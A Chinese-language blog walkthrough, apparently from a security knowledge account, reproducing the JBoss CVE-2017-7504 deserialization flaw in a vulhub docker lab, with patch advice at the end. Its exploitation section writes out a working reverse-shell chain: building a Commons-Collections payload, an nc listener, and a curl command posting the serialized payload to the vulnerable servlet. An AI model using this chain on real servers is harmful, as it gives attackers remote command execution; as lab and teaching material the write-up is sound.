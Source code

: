 #  CVE-2017-7504 JBOSS反序列化漏洞复现   
原创 Kiand  网安知识库   2024-12-04 02:00  
  
## 一、漏洞描述  
```
  JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

```  
## 二、漏洞环境搭建  
### 需要使用的工具如下  
```
1.docker+vulhub漏洞库
2.漏洞POC：下载链接https://github.com/joaomatosf/JavaDeserH2HC
3.攻击机kali虚拟机（版本随意）
4.靶机Ubuntu18.04虚拟机（其他也可以）

```  
  
打开Ubuntu虚拟机，有docker环境和vulhub漏洞库的话就直接进入环境，没有的话先安装docker和下载vulhub漏洞库（网上教程很多，这里就不多介绍了）  
```
root@admin666-virtual-machine:~/vulhub-master/jboss/CVE-2017-7504#

```  
  
执行命令  
```
root@admin666-virtual-machine:~/vulhub-master/jboss/CVE-2017-7504# docker-compose up -d

```  
  
等到出现以下页面说明已经搭建完成![](https://mmbiz.qpic.cn/sz_mmbiz_png/q6x2tyau75NhDkoWMAfIzjgoHibEoAP0fr915LEvovOqpZsTNQc8PVJibxz94tHLvjH0RsnjkaQZiaIibl6uCGJ0QQ/640?wx_fmt=png&from=appmsg "")  
可以访问http://your-ip:8080，出现如下页面证明环境搭建成功！![](https://mmbiz.qpic.cn/sz_mmbiz_png/q6x2tyau75NhDkoWMAfIzjgoHibEoAP0fGzLuu42DHGE5jVZZUYJNnfQgU23BP10pMMYFK8eHUWDX4IIa3454iaw/640?wx_fmt=png&from=appmsg "")  
  
### 存在漏洞页面  
```
/jbossmq-httpil/HTTPServerILServlet

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/q6x2tyau75NhDkoWMAfIzjgoHibEoAP0fFzicVrT5ya4GLwJ1C0aFECUPTaEEwLAB1b7vlB8PYDZGhWOMTheqQhQ/640?wx_fmt=png&from=appmsg "")  
  
image.png  
## 三、漏洞利用  
  
进入kali利用漏洞POC进行验证  
### 1、先把POC克隆到kali中，执行命令  
  
git clone https://github.com/joaomatosf/JavaDeserH2HC![](https://mmbiz.qpic.cn/sz_mmbiz_png/q6x2tyau75NhDkoWMAfIzjgoHibEoAP0fKT9qL9Ts9bWy4hknQuDPBtkyoYkuSSj7RRLAkMicyoK9n56jGR5ReCg/640?wx_fmt=png&from=appmsg "")  
  
### 2、进入JavaDeserH2HC目录，执行  
  
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java![](https://mmbiz.qpic.cn/sz_mmbiz_png/q6x2tyau75NhDkoWMAfIzjgoHibEoAP0fob2kuBNgsBXC6iaG3icNNPu9JuZxJicgsTqfLBbibZvQzxVgZdw6vjRxjA/640?wx_fmt=png&from=appmsg "")  
  
### 3、设置接收shell的IP和端口  
  
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 攻击机IP:监听端口![](https://mmbiz.qpic.cn/sz_mmbiz_png/q6x2tyau75NhDkoWMAfIzjgoHibEoAP0fMVQjqjpCUmibGzPc4bGp3FAYgHudKMo7ZYdcBgYCHIJicO9KhIibHOcpg/640?wx_fmt=png&from=appmsg "")  
  
### 4、使用nc监听端口  
  
nc -lvvp 监听端口![](https://mmbiz.qpic.cn/sz_mmbiz_png/q6x2tyau75NhDkoWMAfIzjgoHibEoAP0fNSibEz5FrC3iaLNic0eqV18wjicf2cB4N6o4ibGSukUx25aRHbE1LYPAmHA/640?wx_fmt=png&from=appmsg "")  
  
### 5、用攻击机发送payload，在JavaDeserH2HC目录下执行  
```
curl http://192.168.1.17:8080/jbossmq-httpil/HTTPServerILServlet  --data-binary @ReverseShellCommonsCollectionsHashMap.ser

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/q6x2tyau75NhDkoWMAfIzjgoHibEoAP0fFfOhRwSwv5WNeYEn5YCndaXpzXLzaq9jR5wbghBQ1PWiclkNUVEgl4Q/640?wx_fmt=png&from=appmsg "")  
### 6、查看监听端口返回的shell，可以执行命令，至此漏洞验证完成  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/q6x2tyau75NhDkoWMAfIzjgoHibEoAP0fnSIUrOnwf5nqSibaBZib2xeR345t36MTlOSoUboK0y5qQr3noibCQ9ehA/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/q6x2tyau75NhDkoWMAfIzjgoHibEoAP0fwicsk8rA5NAjL6UuJ7GGJAmZGMXgOIK0uM7JjnNZpVYrbCibKkCnwrOw/640?wx_fmt=png&from=appmsg "")  
### 7、关闭docker环境  
  
docker-compose down![](https://mmbiz.qpic.cn/sz_mmbiz_png/q6x2tyau75NhDkoWMAfIzjgoHibEoAP0fGlmF7pgvB8ciaTjBnKViapUia2yibOtEJeXVhkWr1BvLSvZ1V5cJU02KnA/640?wx_fmt=png&from=appmsg "")  
  
## 漏洞修复  
  
1、升级jboss为高版本  
  
2、删除**/jbossmq-httpil/HTTPServerILServlet**接口  
  
所有文章，仅供安全研究与学习之用，后果自负!  
  
  
